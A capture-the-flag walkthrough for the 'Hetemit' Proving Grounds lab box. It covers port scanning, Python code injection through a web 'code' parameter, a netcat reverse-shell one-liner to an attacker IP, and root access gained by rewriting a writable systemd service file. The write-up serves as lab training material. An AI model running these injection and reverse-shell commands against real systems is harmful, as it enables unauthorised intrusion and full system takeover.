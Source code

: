 Hetemit is an intermediate Proving Grounds box, also rated as very hard by the community. This machine involves changing service files in order to gain privilege escalation.

`nmap` scan:

```
nmap <target ip> -sC -sV -Pn -sS -p-
```

![Nmap 1](assets/hetemit/nmap-1.png)

![Nmap 2](assets/hetemit/nmap-2.png)

![Nmap 3](assets/hetemit/nmap-3.png)

Two interesting ports stand out: `80` and `50000`. They're both `http` services, so let's check out `50000` in the browser first.

![Port 50000 1](assets/hetemit/port_50000-1.png)

These seem to be either directories or paths that can be accessed. Visit `/verify`:

![Port 50000 2](assets/hetemit/port_50000-2.png)

"code" could potentially be a placeholder for executable programs, or maybe it is code masked under a variable. We can use trial and error with `curl` and see what exactly "code" is:

![Curl 1](assets/hetemit/curl-1.png)

"code" ended up being a variable. We tested `code=2*2` as a `POST` request which evaluated to `4` instead of returning an error.

If "code" can evaluate simple equations, it could be the case that it can run shell commands as well. We'll try running `code=os.system('whoami')`:

![Curl 2](assets/hetemit/curl-2.png)

`0` was returned, but the response body did not error out. This is an example of an error:

![Curl 3](assets/hetemit/curl-3.png)

For future reference, if `os` was not available we could potentially use `code=__import__('os').system('whoami')`. Double underscores around "import" are necessary for one liners or if we need to include python code within a single string.

Okay, now that we know shell code doesn't give us any errors, maybe we can try setting up a connection between our attacker machine and the target machine. Have a `nc` listener on port `18000`, which is an open port from our `nmap` scan, then have this line:

```
code=os.system('nc <attacker ip> 18000 -e /bin/bash')
```

![Curl 4](assets/hetemit/curl-4.png)

![nc 1](assets/hetemit/nc-1.png)

Great! We got a shell. We can upgrade it with:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Or we can have a `penelope` listener instead:

![penelope 1](assets/hetemit/penelope-1.png)

Check for `sudo` commands with:

```
sudo -l
```

![sudo 1](assets/hetemit/sudo-1.png)

As the user `cmeeks`, it seems like we have permissions to start, stop and restart this service. Could be useful later on, we'll keep note of this.

Transfer `linpeas` over to the target's `/tmp` folder and run it. Don't forget to `chmod +x` the file once transferred.

![linpeas 1](assets/hetemit/linpeas-1.png)

![linpeas 2](assets/hetemit/linpeas-2.png)

![linpeas 3](assets/hetemit/linpeas-3.png)

![linpeas 4](assets/hetemit/linpeas-4.png)

These findings all point to a file called `pythonapp.service`, and we apparently have write privileges over it. Sounds sensitive and interesting, let's check it out. `cd` into `/etc/systemd/system`, then we can `nano` `pythonapp.service`:

![pythonapp_service 1](assets/hetemit/pythonapp_service-1.png)

This `.service` file tells Linux how to start, stop and manage a specific program or service. `ExecStart` is the first command that is run once the service starts. Since we have write privileges over this file, we can try running a reverse shell one liner while also changing the `User` to `root`:

![pythonapp_service 2](assets/hetemit/pythonapp_service-2.png)

Have a `nc` listener on port `80` and then reboot the service on the target since we have permissions to do so (`sudo -l`):

![root 1](assets/hetemit/root-1.png)

Rooted! :partying_face:
